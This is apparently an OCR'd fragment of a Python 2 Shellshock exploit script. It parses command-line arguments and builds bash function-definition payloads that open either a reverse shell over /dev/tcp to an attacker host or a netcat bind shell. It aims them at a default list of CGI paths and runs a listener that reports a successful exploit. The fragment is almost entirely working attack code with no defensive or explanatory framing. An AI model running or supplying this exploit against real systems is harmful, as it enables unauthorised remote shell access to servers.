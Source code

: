 ```bash

args = {}

for arg in sys.argv[1:]:
        ar = arg.split("=")
        args[ar[0]] = ar[1]
try:
        args['payload']
except:
        usage()

if args['payload'] == 'reverse':
        try:
                lhost = args['lhost']
                lport = int(args['lport'])
                rhost = args['rhost']
                payload = "() { :;}; /bin/bash -c /bin/bash -i >& /dev/tcp/"+lhost+"/"+str(lport)+" 0>&1 &"
        except:
                usage()
elif args['payload'] == 'bind':
        try:
                rhost = args['rhost']
                rport = args['rport']
                payload = "() { :;}; /bin/bash -c 'nc -l -p "+rport+" -e /bin/bash &'"
        except:
                usage()
else:
        print "[*] Unsupported payload"
        usage()

try:
        pages = args['pages'].split(",")
except:
        pages = ["/cgi-sys/entropysearch.cgi","/cgi-sys/defaultwebpage.cgi","/cgi-mod/index.cgi","/cgi-bin/test.cgi","/cgi-bin-sdb/printenv"]

try:
        proxyhost,proxyport = args['proxy'].split(":")
except:
        pass

if args['payload'] == 'reverse':
        serversocket = socket(AF_INET, SOCK_STREAM)
        buff = 1024
        addr = (lhost, lport)
        serversocket.bind(addr)
        serversocket.listen(10)
        print "[!] Started reverse shell handler"
        thread.start_new_thread(exploit,(lhost,lport,rhost,0,payload,pages,))
if args['payload'] == 'bind':
        serversocket = socket(AF_INET, SOCK_STREAM)
        addr = (rhost,int(rport))
        thread.start_new_thread(exploit,("",0,rhost,rport,payload,pages,))

buff = 1024

while True:
        if args['payload'] == 'reverse':
                clientsocket, clientaddr = serversocket.accept()
                print "[!] Successfully exploited"
                print "[!] Incoming connection from "+clientaddr[0]
                stop = True
```